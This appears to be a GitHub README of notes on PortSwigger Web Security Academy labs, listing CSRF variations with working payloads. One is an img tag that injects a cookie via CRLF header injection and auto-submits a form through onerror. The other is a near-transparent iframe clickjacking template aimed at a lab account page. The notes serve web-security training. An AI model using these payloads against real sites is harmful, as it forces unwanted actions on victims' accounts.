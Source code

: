 <h1 align="center">Portswigger</h1>
<p align="center">This page is about portswigger.net</p>

See more:

https://portswigger.net/web-security

## Variations of Cross-site request forgery (CSRF)
* CSRF where token validation depends on request method
* CSRF where token validation depends on token being present
* CSRF where token is not tied to user session
* CSRF where token is tied to non-session cookie
* CSRF where token is duplicated in cookie
* CSRF where Referer validation depends on header being present
* CSRF with broken Referer validation

### CSRF where token is tied to non-session cookie
#### Two actions in just one open

Adversaries craft a web form with some values and inject a cookie that's is related to those values given. But the adversaries need to do that in just one step.

Find a place in the website that returns something, add the link in the "src" atributte of a _img_ tag with a Set-Cookie instructions to inject a cookie in the victim's browser. Then make a submit of the form through _onerror_ atributte.

```html
<img src="https://URL/?search=test%0D%0ASet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None" --action #1 - inject a needed cookie
  onerror="document.forms[0].submit()"> -- action #2 - submit
```
As the content of "src" attribute is invalid (it set a cookie on client's browser), the content of "onerror" (a submit) will execute in sequence.

%3B = ";"

##### With CRLF (%0D%0A) Injection: 

_When a browser sends a request to a web server, the web server answers back with a response containing both the HTTP response headers and the actual website content, i.e. the response body. The HTTP headers and the HTML response (the website content) are separated by a specific combination of special characters, namely a carriage return and a line feed. For short they are also known as CRLF (%0D%0A). The web server uses the CRLF to understand when new HTTP header begins and another one ends._

See more: https://book.hacktricks.xyz/pentesting-web/crlf-0d-0a

## Clickjacking

```html
<style>
    iframe {
        position:relative;
        width: 750px;
        height: 550px;
        opacity: 0.1; -- to 0.0001
        z-index: 2;
    }
    div {
        position: absolute;
        top: 500;
        left: 60;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>
```
